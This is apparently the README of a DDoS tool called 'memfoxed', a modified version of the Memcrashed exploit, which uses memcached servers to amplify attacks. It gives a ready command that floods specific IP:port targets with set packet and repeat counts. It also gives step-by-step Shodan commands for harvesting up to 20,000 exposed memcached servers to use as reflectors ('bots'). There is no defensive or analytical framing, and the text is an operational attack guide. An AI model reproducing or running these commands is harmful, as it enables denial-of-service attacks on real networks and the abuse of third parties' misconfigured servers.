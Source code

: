 # MEMFOXED

`memfoxed` is a simplified script. Changes made:

* configuration options are passed using CLI args (rather than with interactive questions)
* supports multiple targets

Example:

```shell
$ sudo ./memfoxed.py \
    -t 109.207.14.3:53 \
    -t 193.164.146.24:23 \
    --num-packets 10 \
    --repeat 100 \
    --bots-config ./bots.txt
```

Note that `--bots-config` expects file with line-separated list of IP address of Memcached servers (e.g. see "Download Bots" section how to get one using Shodan API).

### Download Bots

To avoid slow (and rate limited) API calls to Shodan API, you can download all known memcached servers using `shodan` tool.

```shell
$ python3 -m pip install shodan
$ shodan init <KEY>
$ shodan download --limit 20000 bots.json.gz product:"Memcached" port:11211
$ gzip -d bots.json.gz
$ cat bots.json | jq '.ip_str' -r | grep -E '([0-9]{1,3}\.){3}[0-9]{1,3}' > bots.txt 
```

When running `Memcrasched.py` make sure to reply "N" for using Shadon API.

### MEMCRASHED DDOS EXPLOIT TOOL INSTRUCTIONS AND INFO

* Author: [@037](https://twitter.com/037)
* [Link](https://github.com/649/Memcrashed-DDoS-Exploit#readme)
